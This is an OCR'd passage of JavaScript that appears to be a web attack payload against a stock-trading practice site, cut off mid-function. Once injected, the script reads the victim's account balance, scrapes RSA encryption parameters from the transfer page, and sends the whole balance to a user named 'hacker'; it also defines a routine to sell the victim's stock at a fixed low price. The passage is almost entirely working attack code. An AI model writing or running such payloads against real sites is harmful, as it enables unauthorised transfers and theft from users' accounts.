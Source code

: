 ```

            if (match) {
                var bal = match[1]; // 잔액 조정
                console.log("ACCOUNT_BALANCE value:", bal);

                const transfer_res = await fetch('https://rookiestocks.run.goorm.io/mypage/transfer', {
                    method: 'GET',
                    headers: {
                        'Accept': 'text/plain'
                    }
                });

                if (!transfer_res.ok) {
                    throw new Error('Network response was not ok');
                }

                const tranfer_text = await transfer_res.text();
                const userIdInput = 'hacker'; 
                const modulusMatch = tranfer_text.match(/id="RSAModulus"\s+value="([^"]+)"/);
                const Exponent = tranfer_text.match(/id="RSAExponent"\s+value="([^"]+)"/);

                if (userIdInput && modulusMatch && Exponent) {
                    const RSAModulus = modulusMatch[1];
                    const RSAExponent = Exponent[1]; 
                    await ajaxSend(RSAModulus, RSAExponent, userIdInput, bal);
                } else {
                    console.log("Required data not found in transfer response.");
                }
            } else {
                console.log("ACCOUNT_BALANCE not found.");
            }
        } catch (error) {
            console.error('Fetch error:', error);
        }
    }

    async function main() {
        await getStock();
        await sendMoney();
    }

    main();

    async function performAjaxSell(RSAModulus, RSAExponent, UserId, stock, haveUnit) {
    var PRICE = '100';
    var UNIT = haveUnit;
    var USERID = UserId;
    var STOCK = stock;

    const rsa = new RSAKey();
    rsa.setPublic(RSAModulus, RSAExponent);
    let data = {
        stock: STOCK,
        price: PRICE,
        userId: USERID,
        unit: UNIT
    };
    let e2eData = rsa.encrypt(JSON.stringify(data));

    // Promise를 반환하는 jQuery Ajax 사용
    try {
        const response = await $.ajax({
```